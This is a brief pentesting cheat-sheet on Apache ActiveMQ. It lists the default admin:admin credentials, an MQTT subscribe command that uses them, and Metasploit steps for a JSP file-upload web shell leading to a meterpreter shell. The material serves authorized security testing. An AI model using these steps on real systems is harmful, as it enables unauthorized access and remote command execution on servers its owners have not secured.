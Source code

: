 ```yaml
---
title: Apache ActiveMQ Pentesting
description: Apache ActiveMQ is a message broker written in Java together with a full Java Message Service client.
tags:
    - Web
refs:
date: 2023-02-23
draft: false
---
```


## Default Credentials

```bash
admin:admin
```

<br />

## Interaction with MQTT

If the MQTT server is runnong on the target system, we can subscribe/publish to a topic in ActiveMQ using MQTT client.

### Subscribe to a Topic

```bash
# -h: Host
# -t: Topic name
# -V: MQTT protocol version (5, 31, 311)
mosquitto_sub -h example.com -u admin -P admin -t 'example/topic' -V 31
```

<br />

## Web Shell by File Upload JSP

ActiveMQ is vulnerable to web shell via file upload an arbitrary JSP file.

```bash
msfconsole
msf> use exploit/multi/http/apache_activemq_upload_jsp
msf> set ...
msf> run
meterpreter> shell
```
